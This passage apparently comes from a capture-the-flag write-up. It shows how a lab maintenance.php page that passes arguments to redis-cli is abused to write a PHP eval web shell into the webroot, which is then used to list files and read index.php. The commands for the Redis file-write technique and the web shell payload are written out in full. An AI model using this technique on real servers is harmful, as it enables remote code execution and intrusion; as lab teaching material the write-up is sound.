 ```bash
player@93260ec06a13:/var/www$ curl http://localhost/maintenance.php?cmd=config,set,dir,/var/www/html
Running: redis-cli --raw -a '<password censored>' 'config' 'set' 'dir' '/var/www/html'

OK
player@93260ec06a13:/var/www$ curl http://localhost/maintenance.php?cmd=config,set,dbfilename,x.php
Running: redis-cli --raw -a '<password censored>' 'config' 'set' 'dbfilename' 'x.php'

OK

player@93260ec06a13:/var/www$ curl http://localhost/maintenance.php?cmd=set,test,"%3C%3Fphp%20eval%28%24_POST%5B%27x%27%5D%29%3B%3F%3E"
Running: redis-cli --raw -a '<password censored>' 'set' 'test' '<?php eval($_POST['\''x'\'']);?>'

OK
player@93260ec06a13:/var/www$ curl http://localhost/maintenance.php?cmd=save             
Running: redis-cli --raw -a '<password censored>' 'save'

OK
```

Using this backdoor we have just created, we can list all the files in the webroot and dump the contents of index.php to find the "bug".

```bash
player@93260ec06a13:/var/www$ curl http://localhost/x.php
player@93260ec06a13:/var/www$ curl http://localhost/x.php --data 'x=system("ls");'
Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.
player@93260ec06a13:/var/www$ curl http://localhost/x.php --data 'x=system("ls");' --output -
...
index.php
maintenance.php
x.php
...

player@93260ec06a13:/var/www$ curl http://localhost/x.php --data 'x=system("cat index.php");' --output -

...
<?php

# We found the bug!!
#
#         \   /
#         .\-/.
#     /\ ()   ()
#       \/~---~\.-~^-.
# .-~^-./   |   \---.
#      {    |    }   \
#    .-~\   |   /~-.
#   /    \  A  /    \
#         \/ \/
# 

echo "Something is wrong with this page! Please use http://localhost/maintenance.php to see if you can figure out what's going on"
?>
...
```
